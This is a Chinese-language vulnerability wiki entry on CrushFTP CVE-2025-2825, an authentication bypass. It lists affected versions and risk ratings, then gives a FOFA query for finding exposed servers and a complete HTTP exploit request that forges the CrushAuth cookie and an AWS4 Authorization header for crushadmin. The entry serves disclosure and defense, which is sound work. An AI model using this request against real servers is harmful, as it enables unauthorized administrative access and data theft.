

#  CrushFTP-CVE-2025-2825-身份验证绕过

# 漏洞描述

该漏洞源于处理身份验证标头不当，攻击者可绕过认证机制获取管理员权限，进而可能获取敏感信息、篡改数据或执行其他恶意操作。

# 影响版本

10.0.0 <= CrushFTP <= 10.8.3

11.0.0 <= CrushFTP <= 11.3.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-1022206565"

POC/EXP：

```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1
Cookie: CrushAuth=1743113839553_vD96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/

```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
